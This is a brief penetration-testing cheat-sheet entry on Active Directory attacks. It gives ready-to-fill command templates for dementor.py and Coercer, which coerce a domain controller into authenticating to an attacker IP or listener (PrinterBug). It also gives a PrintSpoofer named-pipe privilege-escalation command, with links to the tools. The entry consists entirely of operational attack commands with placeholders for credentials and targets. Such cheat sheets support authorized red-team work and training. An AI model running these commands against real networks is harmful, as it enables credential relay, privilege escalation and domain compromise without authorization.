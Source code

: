 # dementor

% printerbug, Active directory
#plateform/linux  #target/remote #cat/ATTACK/COERCE 

## coerce
https://github.com/NotMedic/NetNTLMtoSilverTicket
```
dementor.py -d <domain_fqdn> -u <user> -p <password> <attacker_ip> <dc2>
```


## Coercer
https://github.com/p0dalirius/Coercer
```
coercer.py -u <user> -p '<password>' -d <domain_fqdn> -l <listener> -t <target-ip>
```


## Printspoofer privesc
https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET

```
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss <launch_cmd>
```
